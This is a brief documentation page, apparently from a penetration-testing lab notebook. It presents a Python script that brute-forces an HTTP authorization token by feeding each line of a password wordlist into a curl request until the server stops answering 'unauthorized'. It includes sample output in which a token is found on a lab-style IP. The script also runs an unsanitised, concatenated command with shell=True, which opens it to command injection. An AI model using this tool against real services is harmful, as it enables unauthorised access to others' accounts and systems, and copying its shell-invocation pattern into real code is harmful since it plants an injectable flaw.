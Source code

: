 ```yaml
---
title: Python Scripts
sidebar_label: Python Scripts
---
```


## Run shell programs by reading command line arguments
This script reads different tokens from a file and pass them to curl command to find out the valid token for authorization

```python
import subprocess
import argparse

def crack(filename, ip_addr) :

  with open(filename) as f:
    password_list = f.readlines()
  
  # to remove whitespace characters like `\n` at the end of each line
  password_list = [x.strip() for x in password_list]  

  print(password_list)

  for password in password_list :
    comd = "curl -s -H 'Authorization: Token " + password + "' " + ip_addr  
    print("Trying..." + password)
    output = subprocess.run(comd, capture_output=True, shell=True).stdout.decode('utf-8')

    if "Unauth".lower() in output.lower():
      print("Unauth".lower()+"-->" + output.lower())
      continue
    else :
      print("Found : " + password)
      break

if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("filename", help="Enter the filename containing passwords")
  parser.add_argument("ip_addr", help="Enter the IP address of server including http://")

  args = parser.parse_args()
  crack(args.filename, args.ip_addr)
```
Output
```sh
$ python3 crack.py /root/wordlists/100-common-passwords.txt http://192.107.107.3
Trying...damian
unauth-->unauthorized access
Trying...123123123
Found : 123123123
```
